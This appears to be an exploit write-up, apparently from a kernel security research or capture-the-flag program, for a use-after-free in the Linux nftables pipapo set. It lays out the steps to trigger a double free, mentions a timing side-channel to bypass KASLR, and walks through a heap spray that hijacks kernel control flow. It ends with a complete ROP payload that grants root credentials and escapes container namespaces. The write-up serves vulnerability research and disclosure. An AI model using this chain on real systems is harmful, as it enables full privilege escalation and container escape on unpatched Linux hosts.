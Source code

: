 ### Triggering Vulnerability

If elements with the same key exist in a pipapo set, `nft_pipapo_remove` may remove the wrong element. As a result, the deactivated element remains in the set, causing a UAF.

We can trigger the vulnerability as follows:

- Create a chain `Base`.
- Create a pipapo set `Vulnerable`.
- Create a set element with key k in `Vulnerable`. We set the timeout of element to 1.
- Create a set element with key k in `Vulnerable` again. We can create an element with the same key because the previously created element is timeout. Repeat this step 256 times.
- A timeouted element is left in the set due to an invalid remove function when it is gc'd.
- Delete set elem with key k. This results in a double free on the set element.

### KASLR Bypass

The kernel base address is obtained through a timing side-channel attack.

### RIP Control

RIP can be controlled as follows:

- Create a chain `Base`.
- Create two additional chains: `chain1` and `chain2`.
- Add a `nft_rule` to `chain1` with an immediate expr that refers to `chain2`.
- Create 0x200 dummy rules in `chain2` to allocate `nft_chain->blob_gen_0` in `dyn-kmalloc-rnd-xx-cg-8k`.
- Create a pipapo set `Vulnerable` and `Verdict`.
- Create a set element with key k in `Vulnerable`. We set the timeout of element to 1. The set element is allocated into `dyn-kmalloc-rnd-xx-cg-64`.
- Create a set element with key k in `Vulnerable` again. This is allowed because the previous element has timed out. Repeat this step 256 times.
- A timeouted element is left in the set due to an invalid remove function when it is gc'd.
- Spray set elements into set `Verdict`, allocating them in `dyn-kmalloc-rnd-xx-cg-64` so that they overlap the freed set element.
- Delete set `Vulnerable`, which frees the sprayed set elements due to the vulnerability.
- Spray new set elements with verdict data referring to `chain2` into `kmalloc-cg-64`, overlapping the freed object.
- Delete set `Verdict`, which deactivates `chain2` twice.
- Delete `chain2`, leaving a dangling pointer to it in the `nft_rule` under `chain1`. At the same time, `nft_chain->blob_gen_0` is freed.
- Spray a `struct xt_table_info` into `dyn-kmalloc-rnd-xx-cg-8k` to create fake blob object. The object is described in liona24's [write-up](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2024-27397_mitigation/docs/exploit.md).
- Trigger `nft_do_chain` by sending a packet. Finally, RIP is controlled while executing `expr_call_ops_eval` [1].

```c
static void expr_call_ops_eval(const struct nft_expr *expr,
                    struct nft_regs *regs,
                    struct nft_pktinfo *pkt)
{
#ifdef CONFIG_RETPOLINE
    unsigned long e = (unsigned long)expr->ops->eval;
#define X(e, fun) \
    do { if ((e) == (unsigned long)(fun)) \
        return fun(expr, regs, pkt); } while (0)  // [1]

    X(e, nft_payload_eval);
    X(e, nft_cmp_eval);
    X(e, nft_counter_eval);
    X(e, nft_meta_get_eval);
    X(e, nft_lookup_eval);
    X(e, nft_range_eval);
    X(e, nft_immediate_eval);
    X(e, nft_byteorder_eval);
    X(e, nft_dynset_eval);
    X(e, nft_rt_get_eval);
    X(e, nft_bitwise_eval);
#undef  X
#endif /* CONFIG_RETPOLINE */
    expr->ops->eval(expr, regs, pkt);
}
```

### Post RIP

Store the ROP payload below to the `dyn-kmalloc-rnd-xx-cg-8k` and execute it.

```c
void make_payload(uint64_t* data){
    int i = 0;

    // current = find_task_by_vpid(getpid())
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = getpid();
    data[i++] = kbase + find_task_by_vpid_off;

    // current += offsetof(struct task_struct, rcu_read_lock_nesting)
    data[i++] = kbase + pop_rsi_ret;
    data[i++] = 0x474;
    data[i++] = kbase + add_rax_rsi_ret;

    data[i++] = kbase + pop_rsi_ret;
    data[i++] = 0;

    // current->rcu_read_lock_nesting = 0 (Bypass rcu protected section)
    data[i++] = kbase + pop_rcx_ret;
    data[i++] = 0;
    data[i++] = kbase + mov_rax_rcx_ret;

    // commit_creds(&init_cred)
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = kbase + init_cred_off;
    data[i++] = kbase + commit_creds_off;

    // find_task_by_vpid(1)
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = 1;
    data[i++] = kbase + find_task_by_vpid_off;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + mov_rdi_rax_ret;
    data[i++] = kbase + pop_rsi_ret;
    data[i++] = kbase + init_nsproxy_off;
    data[i++] = kbase + switch_task_namespaces_off;

    data[i++] = kbase + swapgs_restore_regs_and_return_to_usermode_off;
    data[i++] = 0;
    data[i++] = 0;
    data[i++] = _user_rip;
    data[i++] = _user_cs;
    data[i++] = _user_rflags;
    data[i++] = _user_sp;
    data[i++] = _user_ss;
}
```